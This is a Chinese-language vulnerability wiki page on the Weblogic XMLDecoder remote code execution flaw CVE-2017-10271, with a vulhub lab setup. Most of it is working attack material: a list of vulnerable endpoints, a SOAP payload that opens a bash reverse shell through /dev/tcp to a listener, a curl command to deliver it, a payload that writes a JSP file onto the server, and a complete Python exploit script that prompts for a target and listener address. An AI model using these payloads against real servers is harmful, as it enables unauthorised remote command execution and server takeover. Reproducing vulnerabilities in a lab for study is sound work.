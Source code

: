 # Weblogic XMLDecoder 远程代码执行漏洞 CVE-2017-10271

## 漏洞描述

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

## 影响版本

> [!NOTE]
>
> Weblogic 10.3.6.0.0
>
> Weblogic 12.1.3.0.0
>
> Weblogic 12.2.1.0.0
>
> Weblogic 12.2.1.2.0

## 环境搭建

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2017-10271
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:7001 正常即可

![](image/weblogic-1.png)

## 漏洞复现

对 http://xxx.xxx.xxx.xxx:7001/wls-wsat/CoordinatorPortType 进行访问，存在这个url则可能存在漏洞

```
其他可利用URL
/wls-wsat/CoordinatorPortType
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/ParticipantPortType
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/ParticipantPortType11
/wls-wsat/RegistrationRequesterPortType11
```



![](image/weblogic-2.png)

使用POST方法上传以下数据反弹一个shell

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.0.0.1/21 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

使用Curl反弹shell (将上面的xml数据保存为poc.xml)

```shell
curl -v -X POST -H "Content-Type: text/xml" --data @poc.xml "http://xxx.xxx.xxx.xxx:7001/wls-wsat/CoordinatorPortType"
```

![](image/weblogic-3.png)

也可以通过漏洞写入webshell文件

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

访问 http://xxx.xxx.xxx.xxx:7001/bea_wls_internal/test.jsp 即可得到写入的文件

## 漏洞利用POC

利用 [weblogic-scan](https://github.com/kingkaki/weblogic-scan)快速检测

![](image/weblogic-4.png)

> [!NOTE]
>
> 反弹shell exp

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import sys
import json

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech         \033[0m')
    print('+  \033[34mVersion: Weblogic 10.3.6.0.0            \033[0m')
    print('+  \033[34m         Weblogic 12.1.3.0.0            \033[0m')
    print('+  \033[34m         Weblogic 12.2.1.0.0            \033[0m')
    print('+  \033[34m         Weblogic 12.2.1.2.0            \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2017-10271.py      \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:7001  \033[0m')
    print('+  \033[36mCmd    >>> shell(反弹shell)              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, IP, PORT):
    vuln_url = target_url + "/wls-wsat/CoordinatorPortType"
    headers = {
        "Content-Type": "text/xml",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    data = """
        <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java version="1.4.0" class="java.beans.XMLDecoder">
        <void class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="3">
        <void index="0">
        <string>/bin/bash</string>
        </void>
        <void index="1">
        <string>-c</string>
        </void>
        <void index="2">
        <string>bash -i &gt;&amp; /dev/tcp/%s/%s 0&gt;&amp;1</string>
        </void>
        </array>
        <void method="start"/></void>
        </java>
        </work:WorkContext>
        </soapenv:Header>
        <soapenv:Body/>
        </soapenv:Envelope>
    """ % (IP,PORT)
    try:
        response = requests.request("POST", url=vuln_url, headers=headers, data=data)
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    IP = str(input("\033[35m请输入监听IP   >>> \033[0m"))
    PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
    POC_1(target_url, IP, PORT)
```

![](image/weblogic-5.png)
